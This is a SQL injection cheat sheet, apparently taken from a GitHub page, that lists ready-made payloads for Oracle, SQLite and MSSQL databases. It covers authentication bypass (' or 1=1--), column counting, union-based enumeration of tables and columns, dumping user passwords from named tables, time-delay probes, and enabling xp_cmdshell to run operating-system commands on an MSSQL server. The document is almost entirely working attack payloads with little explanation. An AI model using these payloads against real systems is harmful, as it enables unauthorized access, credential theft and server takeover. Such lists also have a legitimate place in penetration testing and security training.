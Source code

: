 ## Oracle SQL
-> Bypass Authentication
```
' or 1=1--
```

-> get number columns
```
' order by 3--
```

-> get table name
```
' union select null,table_name,null from all_tables--
```

-> get column name
```
' union select null,column_name,null from all_tab_columns where table_name='<table_name>'--
```

-> dump
```
' union select null,PASSWORD||USER_ID||USER_NAME,null from WEB_USERS--
```

## SQLite Injection
-> extracting table names, not displaying standard sqlite tables
```
http://site.com/index.php?id=-1 union select 1,2,3,group_concat(tbl_name),4 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'--
```
-> extracting table users  
```
http://site.com/index.php?id=-1 union select 1,2,3,group_concat(password),5 FROM users--
```

-> Reference  
- https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf

## MSSQL Injection
-> Bypass Authentication
```
' or 1=1--
```
-> get version+delay
```
' SELECT @@version; WAITFOR DELAY '00:00:10'; —
```

-> Enable xp_cmdshell
```
' UNION SELECT 1, null; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;--
```
